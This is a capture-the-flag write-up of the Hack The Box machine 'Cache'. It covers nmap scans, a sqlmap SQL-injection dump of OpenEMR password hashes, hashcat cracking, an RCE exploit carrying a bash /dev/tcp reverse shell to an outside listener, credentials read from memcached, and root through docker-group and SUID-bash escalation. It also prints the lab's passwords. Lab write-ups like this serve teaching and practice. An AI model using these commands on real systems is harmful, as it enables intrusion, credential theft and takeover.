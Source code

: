 # [Cache](https://app.hackthebox.com/machines/cache)

```bash
nmap -p- --min-rate 10000 10.10.10.188 -Pn 
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.188 -Pn 
```

![Alt text](img/image-1.png)


I see some stuff on web application that's interesting for me.

![Alt text](img/image-2.png)


It means that there can be another application.(Hospital Management System)

That's why I modified '/etc/hosts' file by adding `cache.htb` and `hms.htb` domain names.

![Alt text](img/image-3.png)


I opened application and it is 'OpenEMR' CMS system. I browsed `/portal` endpoint

![Alt text](img/image-4.png)


Then, I find `.pdf` file for this CMS system, let's do SQL Injection attack which is `error-based`.

![Alt text](img/image-5.png)


Let's save this request file as `.req` file and attack via `sqlmap` tool.

```bash
sqlmap -r error.req --level 5 --risk 3 --technique "E"
```

![Alt text](img/image-6.png)


Let's enumerate databases by adding `--dbs` option.

Enumerate tables of specific database `-D openemr --tables`.


I select table name called **'users_secure'**, let's add to `sqlmap` cmdlet by adding these options `-T users_secure --dump`


Final SQLMAP cmdlet.
```bash
sqlmap -r error.req --level 5 --risk 3 --technique "E" -D 'openemr' -T 'users_secure' --dump
```

![Alt text](img/image-7.png)


Now, it's time to crack this hash via `hashcat` tool.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-8.png)


I find authenticated RCE exploit from this [repository](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit?tab=readme-ov-file)

Let's use this exploit (45161).

openemr_admin: xxxxxx


```bash
python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.14.5/1337 0>&1"' http://hms.htb 
```

![Alt text](img/image-9.png)


I got reverse shell from port (1337).

![Alt text](img/image-10.png)

Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-11.png)


I got password of `ash` user on endpoint `/jquery` 's directory for file called **'functionality.js'**.

![Alt text](img/image-12.png)


ash: H@v3_fun


user.txt

![Alt text](img/image-13.png)


While I run `netstat -tnpl` command see that port `11211` is open.

![Alt text](img/image-14.png)


That's belong to '**memchaced**', let's connect here via `telnet`.
```bash
telnet 127.0.0.1 11211
```

I got credentials from here `get user` and `get passwd`.

![Alt text](img/image-15.png)


luffy: 0n3_p1ec3


I just `ssh` into machine via this credentials.

I run `id` command for privilege escalation to know user `luffy`.

![Alt text](img/image-16.png)


`docker` group can be exploited , also I found predefined docker image via `docker image ls` command.

![Alt text](img/image-17.png)

I just looked at exploit on [Gtfobins](https://gtfobins.github.io/gtfobins/docker/#shell).


That's `Ubuntu` image, let's run this to gain root shell
```bash
docker run -v /:/mnt -i -t ubuntu bash
```

![Alt text](img/image-18.png)


Reminder! We can gain root shell by copying `/bin/bash` then give `SUID` privilege and run via `luffy user`.

```bash
cp bin/bash home/luffy/dr4ks
chmod 4777 home/luffy/dr4ks
exit # to get luffy user
./dr4ks -p # to gain shell
```

root.txt

![Alt text](img/image-19.png)